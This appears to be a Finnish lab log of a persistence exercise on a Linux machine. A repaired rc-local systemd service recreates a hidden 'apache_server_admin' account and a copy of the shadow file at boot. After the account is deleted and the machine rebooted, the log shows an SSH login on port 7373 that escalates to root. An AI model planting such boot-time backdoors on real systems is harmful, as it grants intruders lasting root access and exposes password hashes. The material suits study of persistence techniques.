 ```
$ sudo micro /etc/systemd/system/rc-local.service

ExecStart=/etc/rc.local start
TimeoutSec=0
StandardOutput=tty
RemainAfterExit=yes
SysVStartPriority=99

[Install]
WantedBy=multi-user.target

$ sudo systemctl enable rc-local
Created symlink /etc/systemd/system/multi-user.target.wants/rc-local.service → /etc/systemd/system/rc-local.service
$ sudo systemctl start rc-local
Failed to start rc-local.service: Unit rc-local.service has a bad unit file setting.
See system logs and 'systemctl status rc-local.service' for details.
```

Törmäsin virheeseen, joka ei selvinnyt ehdotetuista sijainneista sen tarkemmin, mutta viittaisi, että copypasta konfiguraatio ei toiminut. Tutkin hieman muita /etc/systemd/system/ sijainnin palveluiden määrityksiä ja huomasin, että ohjeistussivulta puuttui rivin alusta \[Service\] -määritys. Lisäsin tuon tiedostoon ja käynnistin palvelun: 
```
$ sudo micro /etc/systemd/system/rc-local.service

[Service]
ExecStart=/etc/rc.local start
TimeoutSec=0
StandardOutput=tty
RemainAfterExit=yes
SysVStartPriority=99

[Install]
WantedBy=multi-user.target

$ sudo systemctl start rc-local
```

Ei virheitä, mutta status ilmoitti, että palvelu pyörii oikein ja käynnistyessään loi jo uuden käyttäjän, kansion, sekä kopion shadow -tiedostosta:
```
pajazzo@derpSlave1:$ sudo cat /etc/passwd | grep apache_server
apache_server_admin:x:120:65534::/home/apache_server_admin:/bin/bash
pajazzo@derpSlave1:$ sudo cat /etc/shadow | grep apache_server
apache_server_admin:**Hash be here**/:19105:0:99999:7:::
pajazzo@derpSlave1:$ sudo ls /etc/system_boot.c.conf/
boot.conf
```
Poistin vielä sekä käyttäjän, että luodun kansion ja käynnistin koneen uudelleen.  
```
$ ssh apache_server_admin@192.168.56.7 -p 7373
$ whoami
apache_server_admin
$ apache2user@derpSlave1:/$ sudo whoami
root
``` 
  